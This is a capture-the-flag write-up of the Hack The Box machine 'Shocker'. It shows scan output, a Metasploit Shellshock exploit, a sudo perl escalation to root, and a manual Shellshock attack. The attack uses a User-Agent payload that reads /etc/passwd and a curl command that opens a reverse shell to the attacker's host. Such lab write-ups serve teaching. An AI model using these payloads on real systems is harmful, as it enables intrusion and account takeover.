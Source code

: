 ```yaml
---
title:     "Hack The Box - Shocker"
tags: [linux,easy,sudo,shellshock]
layout: post
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/1.png)

We are going to pwn Shocker from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/108>


Like always begin with our Nmap Scan.

## Nmap Scan Results
```bash
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 4.2 (95%), Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.8 - 3.11 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%), Linux 4.8 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Check whats in the webpage<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/2.png)

Like always lets try bruteforcing the webpage to find any interesting page.

## Gobuster Results

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/02 21:00:28 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2019/12/02 21:04:36 Finished
===============================================================
```
> /cgi-bin  is a folder used to house scripts that will interact with a Web browser to provide functionality for a Web page or website. 

## Checking ShellShock Exploit 

May be if we found any scripts available on ``/cgi-bin/`` we can do ``shellshock`` exploit as the name of the box ``Shocker`` gives us a clue.

Lets bruteforce `` /cgi-bin/ `` , I gave extensions as ``sh,py,pl`` to check for any scripts.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/3.png)<br/>
My guess is correct there is an ``user.sh`` script available

For more info
> https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/

## Getting Shell

There is a module for shellshock exploit, Lets fire up the metasploit

> use exploit/multi/http/apache_mod_cgi_bash_env_exec

We need to give the location of the script in ``TARGETURI`` 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/4.png)

Lets check first whether it is vulnerable or not!
It is Vulnerable so run this and we can get an shell.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/5.png)

We have an user called ``shelly``

## Privilege Escaltion

I uploaded my Linux Enumeration Script and found that ``perl`` can run as root without password.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/6.png)

Lets check GTFOBins

>https://gtfobins.github.io/gtfobins/perl/

``sudo perl -e 'exec "/bin/sh";``

Running this command will make us root

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/7.png)

We got ROOT ~

## Method 2 (Without Metasploit)

We can get shell without using metasploit

By injecting the `UserAgent` Manually I can read the `/etc/passwd` so by using this I can get reverse shell too.
```bash
root@kali:~/Downloads# echo -e "HEAD /cgi-bin/user.sh HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 10.10.10.56 80
HTTP/1.1 200 OK
Date: Tue, 07 Jul 2020 04:21:30 GMT
Server: Apache/2.4.18 (Ubuntu)
root: x:0:0:root:/root:/bin/bash
daemon: x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin: x:2:2:bin:/bin:/usr/sbin/nologin
sys: x:3:3:sys:/dev:/usr/sbin/nologin
sync: x:4:65534:sync:/bin:/bin/sync
games: x:5:60:games:/usr/games:/usr/sbin/nologin
man: x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp: x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail: x:8:8:mail:/var/mail:/usr/sbin/nologin
news: x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp: x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy: x:13:13:proxy:/bin:/usr/sbin/nologin
www-data: x:33:33:www-data:/var/www:/usr/sbin/nologin
backup: x:34:34:backup:/var/backups:/usr/sbin/nologin
list: x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc: x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats: x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody: x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync: x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network: x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve: x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy: x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog: x:104:108::/home/syslog:/bin/false
_apt: x:105:65534::/nonexistent:/bin/false
lxd: x:106:65534::/var/lib/lxd/:/bin/false
messagebus: x:107:111::/var/run/dbus:/bin/false
uuidd: x:108:112::/run/uuidd:/bin/false
dnsmasq: x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd: x:110:65534::/var/run/sshd:/usr/sbin/nologin
shelly: x:1000:1000:shelly,,,:/home/shelly:/bin/bash
Connection: close
Content-Type: text/x-sh
```

Reference:
>https://medium.com/@hackbotone/shellshock-attack-on-a-remote-web-server-d9124f4a0af3

So All we need to do is run this command on our machine and listening on another terminal

```bash
curl -A '() { :; }; /bin/bash -i > /dev/tcp/10.10.14.17/9000 0<&1 2>&1' http://10.10.10.56/cgi-bin/user.sh
```

It is injecting on the `` User-Agent `` on the request header.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/8.png)

WE got ``shelly`` and Privilege Escalation is as same as before.